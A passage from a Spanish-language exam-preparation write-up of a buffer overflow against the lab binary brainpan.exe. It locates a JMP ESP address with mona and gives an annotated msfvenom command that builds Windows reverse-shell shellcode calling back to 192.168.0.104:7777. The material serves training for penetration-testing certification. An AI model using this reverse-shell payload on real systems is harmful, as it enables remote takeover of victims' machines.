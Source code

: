 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 146.png)

Ahora se buscará la dirección de este OPCode en el módulo brainpan.exe.

```bash
!mona find -s '\xFF\xE4' -m brainpan.exe
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 147.png)

Se encontró un puntero con la dirección (”0x311712f3”), esta dirección es a la que ahora debe apuntar el EIP para que se aplique el JMP ESP.

### Creación del shellcode

Se creará el shellcode que será insertado en el stack.

```bash
msfvenom -p windows\shell_reverse_tcp 
--platform windows -a x86 LHOST=192.168.0.104 
LPORT=7777 -f c -b '\x00' EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell. Los payloads 
# con "/meterpreter/" entablarán una reverse shell 
# para metasploit. En este caso se usa un payload que 
# permitirá usar netcat para obtener la shell.

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

LHOST= # Indica que se enviará una reverse shell a una 
# dirección IP.
LPORT= # Indica el puerto por el cual se recibirá la 
# reverse shell

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 148.png)

### Desplazamiento de la pila

Para que el shellcode se ejecute correctamente, se hará un desplazamiento de 16 bytes atrás en la pila.
